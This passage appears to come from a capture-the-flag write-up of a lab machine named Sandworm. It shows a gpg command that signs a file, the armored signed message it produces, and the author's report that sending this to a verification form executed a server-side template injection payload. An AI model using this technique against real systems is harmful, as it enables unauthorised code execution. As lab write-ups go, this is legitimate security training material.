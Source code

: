 ```bash

$ gpg --sign --armor test.html

$ cat test.html.asc
-----BEGIN PGP MESSAGE-----

owGbwMvMwMX4zqu51tMmeA/jmtQkzpLU4hK9jJLcnJTP8k42IIYdl01GamKKnY0+
mOKyScpPqQRS+hCaq7pawVzLXKG2lovLJjM3XaG4KNlWydBAD4RM9Awt9YGCSgr6
IB0Q4zoZN7MwMHIxyIopsti/XV574VfTzX3VCzxg7mBlAtnNwMUpABM5nc3D8DTw
UlaToPKXU7k8HHszGhdLta+pixdKEu375vnev/Ls4cMrV0wR0jY8FenwoWVHpkoi
W+qSDROSrA9sX5C0T85sU5N4Z1xKT/xl003VNlrbtaWezlhyonhP5+z8C61vS56e
XzO779tm/7l7N/LEPNHbdL8wJqT5+ilztat71/58VSDIs3rn7Hqvdu0GU57WaWqT
FaacW1TPlNe287BOp9ehqP/fdR8xL1aLSH6hlhxcKLBt39QFz+c/6K//2yi/NMF0
0dI2meI7KenC4aybjlxwYZy8xeHV9R0qgct3vXlWf/TLqaatG1qm7Tl+5GJiU8U9
Z1Vd98h14cuO3j7P6B6suy1HtuKV3L3XD6Y+fM7RftlcbrLn1Fo+G4Xd3q3Oh3jc
gwsYA4MP3L2WziP45kK/7I6p7zjNHitOU6mYsHTiqntZra4C1ZG9ClNCJ1isd7py
YwXL12lOqdn7poRvncr7taB7wcdr/bUMM+P9+g9PP5DcdMDztuRJiT1fJl+Ynn1x
gc/R2QwZXfGer/LvVLNs+Jjy4iEA
=wKkQ
-----END PGP MESSAGE-----
```

I sent this to the verification form, my payload was executed.

![SSTI](/assets/images/2023/11/Sandworm/SSTI.png "SSTI")
